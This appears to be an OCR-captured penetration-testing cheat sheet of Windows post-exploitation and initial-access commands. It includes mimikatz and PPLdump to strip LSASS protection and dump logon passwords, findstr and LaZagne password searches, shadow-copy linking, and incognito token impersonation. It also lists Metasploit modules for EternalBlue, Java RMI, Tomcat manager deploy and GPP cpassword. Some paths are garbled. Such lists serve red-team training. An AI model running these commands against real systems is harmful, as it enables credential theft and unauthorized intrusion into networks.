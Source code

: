 LSA as a Protected Process

    PPLdump64.exe lsass.dmp
    mimikatz “!+” “!processprotect /process:lsass.exe /remove” “privilege::debug” “token::elevate” “sekurlsa::logonpasswords” “!processprotect /process:lsass.exe” “!-” #with mimidriver.sys

search password files

    findstr /si ‘password’ *.txt *.xml *.docx

search stored password

    lazagne.exe all

shadow copies

    diskshadow list shadows all
        mklink /d c:\shadowcopy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\

token manipulation

    .\incognito.exe list_tokens -u
        .\incognito.exe execute -c “\” powershell.exe
    use incognito
        impersonate_token \

dpapi extract
Low hanging fruit
java rmi

    exploit/multi/misc/java_rmi_server

ms17-010

    exploit/windows/smb/ms17_010_eternalblue

tomcat/jboss manager

    auxiliary/scanner/http/tomcat_enum
    exploit/multi/http/tomcat_mgr_deploy

java serialized port

    ysoserial

vulnerable product with cve

    searchsploit

MS14-025

    use scanner/smb/smb_enum_gpp
    findstr /S /I cpassword \\sysvol\\policies*.xml

database credentials

    use admin/mssql/mssql_enum_sql_logins

proxylogon
proxyshell
Low access
winpeas.exe
search password files
